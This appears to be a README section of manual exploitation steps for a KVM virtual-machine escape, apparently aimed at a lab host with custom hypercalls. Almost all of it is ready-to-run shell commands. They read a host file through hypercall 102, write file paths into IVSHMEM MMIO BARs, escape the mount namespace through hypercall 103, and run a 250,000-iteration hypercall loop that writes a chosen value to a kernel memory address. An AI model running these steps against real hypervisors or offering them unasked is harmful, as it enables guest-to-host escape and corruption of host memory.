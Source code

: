 ## 🔧 Manual Exploitation

### Objective A: Read Host File

#### Method 1: Hypercall-based (HC 102)
```bash
# Allocate shared buffer
kvm_prober alloc_shared
# Output: Shared buffer allocated at GPA: 0x<addr>

# Write filepath to buffer
echo -n "/root/host_rce" | xxd -p | tr -d '\n'
# Output: 2f726f6f742f686f73745f726365

kvm_prober writegpa <shared_gpa> 2f726f6f742f686f73745f72636500

# Execute hypercall 102: READ_HOST_FILE
kvm_prober hypercall 102 <shared_gpa> <shared_gpa+0x100> 4096 0

# Read result
kvm_prober read_shared <size>
```

#### Method 2: MMIO BAR Technique
```bash
# Try different IVSHMEM BARs
for bar in 0xfebf0000 0xfebf1000 0xfec00000; do
    # Write filepath
    kvm_prober writemmio_buf $bar $(echo -n "/root/host_rce" | xxd -p)
    
    # Trigger read (offset +0x10)
    kvm_prober writemmio_buf $((bar + 0x10)) 0000000000000001
    
    # Read data (offset +0x1000)
    kvm_prober readmmio_buf $((bar + 0x1000)) 4096
done
```

#### Method 3: Namespace Escape (HC 103)
```bash
kvm_prober hypercall 103 <path_gpa> <dest_gpa> 1 0
# arg2=1: escape mount namespace
```

### Objective B: Mass Write Attack

#### Method 1: Hypercall Loop (HC 100)
```bash
#!/bin/bash
TARGET=0xffffffff826279a8
VALUE=0xdeadbeef41424344

for ((i=0; i<250000; i++)); do
    kvm_prober hypercall 100 $TARGET $VALUE 0 0
    [ $((i % 10000)) -eq 0 ] && echo "Progress: $i writes"
done
```
